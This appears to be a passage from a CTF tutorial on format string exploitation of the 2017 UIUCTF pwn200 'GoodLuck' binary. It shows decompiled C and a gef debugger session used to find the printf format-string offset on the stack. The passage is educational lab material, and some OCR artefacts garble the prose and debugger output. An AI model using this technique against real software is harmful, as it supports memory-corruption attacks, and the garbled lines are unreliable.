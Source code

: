```C
      puts("\nBut that was totally wrong lol get rekt");

      fflush(_bss_start);

      result = 0;

      goto LABEL_11;

    }

  }

```



#### Determining the offset


We offset the following at printf, here we only focus on the code part and the stack part.


```shell

gef➤  b printf

Breakpoint 1 at 0x400640

gef➤  r

Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/2017-UIUCTF-pwn200-GoodLuck/goodluck 

what's the flag

123456

You answered:



Breakpoint 1, __printf (format=0x602830 "123456") at printf.c:28

28 printf.c: There is no such file or directory.


─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────

   0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8

0x7ffff7a627fe <fprintf+142> right
   0x7ffff7a627ff                  nop    

 → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8

0x7ffff7a62807 <printf+7> test al, al
0x7ffff7a62809 <printf+9> mov QWORD PTR [rsp + 0x28], rsi
0x7ffff7a6280e <printf+14> mov QWORD PTR [rsp + 0x30], rdx
───────────────────────────────────────────────────────────────────────[ stack ]────

['0x7fffffffdb08', 'l8']

8

0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8	 ← $rsp

```